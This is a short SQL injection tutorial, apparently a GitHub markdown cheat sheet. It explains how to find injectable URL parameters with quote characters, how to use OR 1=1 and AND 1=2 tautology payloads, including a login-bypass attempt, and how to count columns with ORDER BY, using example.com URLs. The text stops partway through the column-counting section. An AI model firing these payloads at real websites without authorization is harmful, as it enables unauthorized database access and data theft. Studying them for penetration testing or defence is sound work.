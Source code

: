 # SQL injection Manual

Tags : #sqli #sqlinjection #sql #blindsqli #pysqli #sqli_cheatsheet

## Info
SQL Comments : double hiphen and space -- -
hashtag # 

---

Determine all the urls with parameters in it 
Example :
```
https://www.example.com/products?id=2
https://www.example.com/products?category=Computers
https://www.example.com/products?id=2&username=tech69
```
Now try to put single quote ' or double quote " and see any errors in the response

if we got any errors that means that parameter is vulnerable to sql injection 

----

## OR and AND Injection

ok , now we determined our injection point (parameter)
let's use OR and AND clauses to make TRUE and FALSE result
```
https://www.example.com/products?id=2' OR 1=1 -- -
https://www.example.com/products?id=2' AND 1=2 -- -
https://www.example.com/products?id=2' OR 1=1 # 
https://www.example.com/products?id=2' AND 1=2 # 
```

We can try for bypassing login page . Most time will not work but worths a try .

---

## Determining number of columns using ORDER BY

We can sort the results in the resposne using **ORDER BY** keyword
This will sort according to the column name or number 
Suppose there are 3 columns and if we sort according to 4th column we get error because there is no 4th column

Sorting according to first column
```
https://www.example.com/products?id=2' ORDER BY 1 -- -
```

Sorting according to second column
```
https://www.example.com/products?id=2' ORDER BY 2-- -
```
